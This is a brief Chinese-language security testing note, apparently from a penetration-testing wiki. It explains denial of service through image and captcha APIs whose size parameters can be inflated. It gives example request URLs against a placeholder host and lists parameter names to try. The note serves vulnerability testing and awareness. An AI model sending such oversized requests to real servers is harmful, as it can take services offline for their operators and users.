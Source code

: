 ## 图片 DoS

图片 API 参数大小可控, 导致 DoS 攻击

```
图片 API 为类似的 URL 时
http://debian/api.php?op=checkcode&width=12&height=26
可修改参数值 (建议先使用一个较小的参数测试，避免服务器崩溃) 查看响应时间是否变化
http://debian/api.php?op=checkcode&width=1200&height=26
有时需要自己构造参数
?w=100&h=100
?width=100&height=100
?size=1000
?margin=1000
```

---

参考链接

- [新类型【漏洞】验证码大小可控导致的拒绝服务攻击漏洞](https://zhuanlan.zhihu.com/p/41800341)
